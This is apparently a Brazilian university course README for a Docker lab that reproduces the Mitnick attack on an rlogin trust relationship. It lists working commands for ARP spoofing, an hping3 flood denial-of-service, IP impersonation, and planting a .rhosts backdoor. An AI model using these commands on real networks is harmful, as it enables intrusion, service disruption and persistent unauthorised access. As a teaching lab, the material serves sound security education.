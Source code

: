 # Mitnick Attack

## **Requisitos**

- docker
- docker compose

## **Contexto**

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

***

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

Basta seguir o link acima.

***

## **Entendendo nossa versão do ataque**

### **estrutura geral**

Nossa topologia consistirá de 3 containers docker:

1. [attacker](./docker-compose.yml#L29)
2. [trusted_server](./docker-compose.yml#L17)
3. [x-terminal](./docker-compose.yml#L5)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### **x-terminal**

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### **attacker**

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### **trusted_server**

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### **Ataque**

O ataque será feito em 5 etapas:

1. **Arp Spoofing**
2. **Negação de serviço**
3. **Personificação**
4. **Invasão**
5. **Backdoor**

Cada etapa será abordada em detalhes a seguir.

***

## **Como executar**

1. **Iniciando as máquinas**

    ```bash
    docker-compose up -d
    ```

2. **Acessando as máquinas**

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

    Para explorar a relação de confiança entre o trusted_server e o x-terminal, execute o seguinte comando no terminal do trusted_server:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Isso fará com que o usuário fontoura seja logado no x-terminal sem a necessidade de uma senha.

    Agora, para verificar que o x-terminal não pode ser acessado por outras máquinas, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker não é o trusted_server, o login necessitará de uma senha.

    **Obs.:** Em alguns cenários o docker manipula o iptables da máquina host. Caso sua politica de FORWARD esteja DROP, execute: `sudo iptables -P FORWARD ACCEPT`.

    Para verificar a politica de FORWARD, execute: `sudo iptables -L FORWARD`.

3. **Realizando o arp spoofing**

    Para realizar o arp spoofing, execute o seguinte comando no terminal do attacker:

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no terminal do x-terminal:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. **Realizando a negação de serviço**

    Para realizar a negação de serviço, execute o seguinte comando no terminal do attacker:

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. **Realizando a personificação**

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

6. **Invadindo**

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

7. **configurando o backdoor**

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no terminal do x-terminal:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts
    ```

    Isso permitirá que o attacker se logue no x-terminal sem a necessidade de uma senha.

8. **Conclusão**

    Com o backdoor configurado, podemos retornar o IP do attacker para o seu IP original. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.4
    ```

    Para verificar que o backdoor está funcionando, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Se o backdoor estiver funcionando, o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

    Para conferir que os pacotes não estão passando pelo trusted_server, execute o seguinte comando no terminal do attacker:

    ```bash
    tcpdump -i eth0 tcp port 513
    ```

    O comando acima irá capturar os pacotes que estão sendo enviados para o x-terminal. Como o attacker está se passando pelo trusted_server, os pacotes não devem passar pelo trusted_server.

***

## Autores

- Guiusepe Oneda - GRR20210572
- Vinícius Fontoura - GRR20206873
